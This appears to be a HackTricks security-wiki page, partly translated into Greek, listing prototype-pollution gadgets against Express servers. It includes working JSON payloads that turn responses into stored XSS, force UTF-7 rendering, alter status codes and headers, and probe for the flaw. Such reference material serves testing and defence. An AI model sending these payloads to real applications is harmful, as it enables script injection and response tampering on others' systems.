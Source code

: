 # Express Prototype Pollution Gadgets

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Serve XSS responses

**Για περισσότερες λεπτομέρειες** [**ρίξτε μια ματιά στην αρχική έρευνα**](https://portswigger.net/research/server-side-prototype-pollution)

### Change JSON content-type to HTML

Σε μια εφαρμογή Express που χρησιμοποιεί **JSON content type response** και ανακλά ένα JSON:
```javascript
app.use(bodyParser.json({type: 'application/json'}));
app.post('/', function(req, res){
_.merge({}, req.body);
res.send(req.body);
});
```
Σε αυτές τις περιπτώσεις, το XSS δεν είναι συνήθως δυνατό με τύπο περιεχομένου JSON. Ωστόσο, με την μόλυνση πρωτοτύπου μπορούμε να **μπερδέψουμε το Express ώστε να εξυπηρετήσει μια HTML απάντηση.** Αυτή η ευπάθεια βασίζεται στη χρήση του **`res.send(obj)`** από την εφαρμογή και στη χρήση του body parser με τον τύπο περιεχομένου application/json.
```json
{"__proto__":{"_body":true,"body":"<script>evil()"}}
```
Με την **ρύπανση** των ιδιοτήτων **`body`** και **`_body`**, είναι δυνατόν να προκαλέσετε **την Express να σερβίρει τον τύπο περιεχομένου HTML** και να ανακλά την ιδιότητα `_body`, με αποτέλεσμα αποθηκευμένο XSS.

### Απόδοση UTF7

Είναι δυνατόν να κάνετε την express **να αποδώσει περιεχόμενο UTF-7 με**:
```json
{"__proto__":{"content-type": "application/json; charset=utf-7"}}
```
## Safe Scanning Techinques

### JSON spaces

Η παρακάτω PP θα προσθέσει ένα επιπλέον διάστημα στα χαρακτηριστικά μέσα σε ένα JSON που δεν θα σπάσει τη λειτουργικότητα:
```json
{"__proto__":{"json spaces": " "}}
```
Τότε ένα αντανάκλαση JSON θα φαίνεται έτσι:
```json
{"foo":  "bar"} -- Note the extra space
```
### Exposed Headers

Ο παρακάτω PP gadget θα κάνει τον διακομιστή να στείλει πίσω την HTTP κεφαλίδα: **`Access-Control-Expose_headers: foo`**
```json
{"__proto__":{"exposedHeaders":["foo"]}}
```
Απαιτείται η **εγκατάσταση του CORS module**

### **Μέθοδος OPTIONS**

Με το παρακάτω payload, είναι δυνατόν να **κρυφτεί μια μέθοδος από μια απάντηση OPTIONS**:
```javascript
// Original reponse: POST,GET,HEAD

// Payload:
{"__proto__":{"head":true}}

//New response: POST;GET
```
### **Κατάσταση**

Είναι δυνατόν να αλλάξετε τον **κωδικό κατάστασης που επιστρέφεται** χρησιμοποιώντας το παρακάτω PP payload:
```json
{"__proto__":{"status":510}}
```
### Σφάλμα

Όταν αναθέτετε σε ένα πρωτότυπο με μια πρωτογενή τιμή όπως μια συμβολοσειρά, παράγει μια **λειτουργία no-op καθώς το πρωτότυπο πρέπει να είναι ένα αντικείμενο**. Εάν προσπαθήσετε να αναθέσετε ένα αντικείμενο πρωτοτύπου στο `Object.prototype` αυτό θα **ρίξει μια εξαίρεση**. Μπορούμε να χρησιμοποιήσουμε αυτές τις δύο συμπεριφορές για να **ανιχνεύσουμε αν η ρύπανση του πρωτοτύπου ήταν επιτυχής**:
```javascript
({}).__proto__.__proto__={}//throws type exception
({}).__proto__.__proto__="x"//no-op does not throw exception
```
### Reflected Value

Όταν μια εφαρμογή περιλαμβάνει ένα αντικείμενο στην απάντησή της, η δημιουργία ενός χαρακτηριστικού με **ασυνήθιστο όνομα μαζί με το `__proto__`** μπορεί να είναι διαφωτιστική. Συγκεκριμένα, αν **μόνο το ασυνήθιστο χαρακτηριστικό επιστρέφεται** στην απάντηση, αυτό θα μπορούσε να υποδηλώνει την ευπάθεια της εφαρμογής:
```json
{"unusualName":"value","__proto__":"test"}
```
Επιπλέον, σε σενάρια όπου χρησιμοποιείται μια βιβλιοθήκη όπως το Lodash, η ρύθμιση μιας ιδιότητας τόσο μέσω της ρύθμισης πρωτοτύπου (PP) όσο και άμεσα μέσα στο αντικείμενο προσφέρει μια άλλη διαγνωστική προσέγγιση. Εάν μια τέτοια ιδιότητα παραληφθεί από την απόκριση, υποδηλώνει ότι το Lodash επαληθεύει την ύπαρξη της ιδιότητας στο στοχευόμενο αντικείμενο πριν από τη συγχώνευση:
```javascript
{"__proto__":{"a":"value1"},"a":"value2","b":"value3"}
// If 'b' is the only property reflected, this indicates prototype pollution in Lodash
```
## Misc

### Allow Dots

Υπάρχει μια επιλογή στο Express που σας επιτρέπει να **δημιουργείτε αντικείμενα από παραμέτρους συμβολοσειράς ερωτήματος**.\
Μπορείτε σίγουρα να το χρησιμοποιήσετε σε μια **αλυσίδα** σφαλμάτων για να εκμεταλλευτείτε μια **ευπάθεια μόλυνσης πρωτοτύπου**.
```json
{"__proto__":{"allowDots":true}}
```
**`?foo.bar=baz` δημιουργεί ένα αντικείμενο στο Node.**

## Αναφορές

* [https://portswigger.net/research/server-side-prototype-pollution](https://portswigger.net/research/server-side-prototype-pollution)


{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
